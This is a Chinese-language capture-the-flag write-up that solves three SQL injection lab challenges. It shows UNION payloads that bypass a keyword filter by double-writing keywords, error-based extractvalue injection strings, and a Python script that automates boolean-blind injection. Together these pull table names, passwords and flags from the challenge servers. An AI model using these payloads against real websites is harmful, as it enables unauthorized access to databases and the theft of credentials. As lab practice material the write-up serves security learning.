

# WriteUp6

## EasySQL

## 【极客大挑战 2019】BabySQL

按普通方法绕过无果。尝试注释掉password,%23即为注释符#

```php
/check.php?username=admin' %23&password=1
```

发现登陆成功


修改查询内容，输入```/check.php?username=1' order by 3%23&password=1```后给出报错信息"... near 'der 3#' and password='1'' "，我们输入的order却变成了der


再次输入```/check.php?username=1' oorderrder by 3%23&password=1```，给出报错信息"...to use near 'oderrder 3#' and password='1'' at line 1"


我们可以看到or被过滤掉了，所以用一般的方法无法绕过密码登录，我们采用双写的办法绕过过滤，并确定回显点位

```php
/check.php?username=1' uniunionon selselectect 11,22,33 %23
&password=1
```


可以看到，username的地方显示的是22，passeord的地方显示的是33，我们可以把22和33替换为我们想要查询的内容。我们先查询一下数据库的版本和名称

```php
/check.php?username=1' uniunionon selselectect 11,version(),database() %23&password=1
```


可以看到数据库名称为geek,我们继续查询数据库geek中有哪些表

```php
/check.php?username=1' uniunionon selselectect 11,22,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema=database() %23&password=1
```


查询第一个表b4bsql中有哪些列

```php
/check.php?username=1' uniunionon selselectect 11,22,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql' %23&password=1
```


b4bsql中有三个字段，id,username,password。我们再查询一下表中的具体数据。
```php
/check.php?username=1' uniunionon selselectect 11,22,group_concat(id,username,
passwoorrd) frfromom geek.b4bsql %23&password=1
```


得到flag，完成题目。

## 【极客大挑战 2019】HardSQL

万能密码和双写都不行


使用extractvalue和updatexml进行报错注入，并使用()来代替空格，使用like来代替=号

```bash
'or(extractvalue(1,concat(0x7e,database())))#
```
得到库名geek


```bash
'or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like("geek")))))#
```
得到表名H4rDsq1



```bash
'or(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like("H4rDsq1")))))#
```
得到字段id,username,password


```bash
'or(extractvalue(1,concat(0x7e,(select(password)from(H4rDsq1)where(id)like('1')))))#
```

得到左半边flag:flag{97f9adc4-4f53-4234-bde7-a7


```bash
'or(extractvalue(1,concat(0x7e,(select(right(password,20))from(H4rDsq1)where(id)like('1')))))#
```
得到右半边flag:4-bde7-a7a5d08026e0}，拼接即可得到完整flag{97f9adc4-4f53-4234-bde7-a7a5d08026e0}


## 【极客大挑战 2019】FinalSQL

* 尝试输入id，发现如果id超出了范围，就是ERROR!!!这表明语法是正确的


* 如果id输入违法，比如输入字符串，就是ERROR! 表示连语法都错了


* 基本思路：1^(sql注入判断语句)#
    * 如果页面正常显示(NO! Not this! Click others~~~)，说明id=1，进一步说明sql语句为假

        

    * 如果页面显示为ERROR!!!，说明id=0，进一步说明sql语句为真

        

* 判断语句：（爆破库名）数据库名字(geek)第一位比a大吗？比b大吗？python写脚本进行二分查找

* 爆破库名

```python
1^(ascii(数据库名字第n位)>一个数)#
1^(ascii(sustr(datebase(),第n位,1))>一个数)#
"1^(ascii(substr(database(),%d,1))>%d)#"% (i,mid)
```
* python代码

```python
def bomb_database_name():
    import requests
    name = ""
    url_front="http://fbb3589c-5d16-4b53-bdc9-c39b713cc688.node3.buuoj.cn/search.php?id="
    for i in range(1,1000):
        low = int(32)
        high = int(128)
        mid=int((low+high)/2)
        while low<high:
            payload = "1^(ascii(substr(database(),%d,1))>%d)#"% (i,mid)   # 其他爆破只需修改payload
            s = requests.session()
            url = url_front + payload
            r = s.get(url)
            if "ERROR" in r.text:  #sql语句为真，在后半段
                low = mid + 1
            else:
                high = mid
            mid =int((low+high)/2)
            #print(mid,low,high)
        if mid == 32:
            break
        name = name + chr(mid)
        print(name)
```
得到数据库名字geek


* 爆破表名

```python
"1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)#"% (i,mid)
```

得到表名F1naI1y,Flaaaaag


* 爆破Flaaaaag表的字段

```python
"1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='Flaaaaag'),%d,1))>%d)#"% (i,mid)
```

得到Flaaaaag表的字段id,fl4gawsl


* 爆破F1naI1y表的字段

```python
"1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='F1naI1y'),%d,1))>%d)#"% (i,mid)
```

得到F1naI1y表的字段id,username,password


* 爆破Flaaaaag表的fl4gawsl字段

```python
"1^(ascii(substr((select(group_concat(fl4gawsl))from(Flaaaaag)),%d,1))>%d)#"% (i,mid)
```

并未得到有用信息


* 爆破F1naI1y表的password字段

```python
"1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)#"% (i,mid)
```

经过漫长的爆破，得到flag


